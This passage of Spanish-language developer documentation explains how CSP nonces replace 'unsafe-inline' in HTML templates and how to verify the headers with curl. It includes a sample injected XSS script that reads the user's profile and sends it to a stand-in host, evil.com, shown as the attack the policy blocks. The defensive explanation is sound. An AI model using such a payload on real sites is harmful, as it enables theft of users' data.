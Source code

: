 
**3. Uso en Templates HTML**

```html
<!-- ❌ Antes (Sprint 1) - Vulnerable a XSS -->
<script>
  console.log("Inline script");
</script>

<!-- ✅ Después (Sprint 2) - Seguro con nonce -->
<script nonce="${c.get('nonce')}">
  console.log("Inline script");
</script>
```

### Ventajas de Seguridad

**Escenario de Ataque Bloqueado:**

```typescript
// Atacante inyecta:
<script>
  fetch('/api/users/me').then(r => r.json()).then(user => {
    // Robar datos del usuario
    fetch('https://evil.com/steal?data=' + JSON.stringify(user));
  });
</script>

// Con unsafe-inline: ❌ Script se ejecuta
// Con nonce: ✅ Browser bloquea el script (sin nonce)
```

**CSP Report (Browser Console):**

```
[CSP] Refused to execute inline script because it violates the following
Content Security Policy directive: "script-src 'self' 'nonce-ABC123'".
Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce
('nonce-...') is required to enable inline execution.
```

### Verificación

**Probar CSP Nonces:**

```bash
# 1. Iniciar servidor
cd apps/api && pnpm dev

# 2. Verificar headers
curl -I http://localhost:8080/health

# Expected output:
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-ABC123'

# 3. Verificar nonce en HTML (si aplica)
curl http://localhost:8080/some-page | grep nonce
```

---